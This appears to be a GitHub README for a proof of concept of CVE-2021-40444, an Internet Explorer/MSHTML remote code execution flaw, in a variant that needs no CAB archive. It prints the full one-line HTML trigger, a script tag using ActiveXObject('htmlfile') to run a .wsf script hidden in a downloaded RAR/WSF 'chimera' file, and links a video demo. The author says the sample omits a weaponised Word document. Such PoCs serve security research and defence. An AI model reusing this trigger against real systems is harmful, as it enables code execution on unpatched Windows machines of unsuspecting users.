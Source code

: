 # CVE-2021-40444--CABless version
Update: Modified code so that we don´t need to rely on CAB archives
the file "index.html" that triggers payload execution will contain 1 line of code only, inside 'script' tag:
<script>new ActiveXObject('htmlfile').Script.location='.wsf:../../../Downloads/cabless.rar?.wsf';</script>
An article in PDF format is provided.

Update: link to video demo -> https://www.youtube.com/watch?v=V9XD3VboEcU?v=

Note: The sample RAR file does NOT contain a Word document designed to exploit the vulnerability as I have taken as reference one of the PoCs posted on GitHub. Instead, it just have merged WSF and RAR data to demonstrate the path described in the article so the file can be parsed as RAR and WSF (chimera).
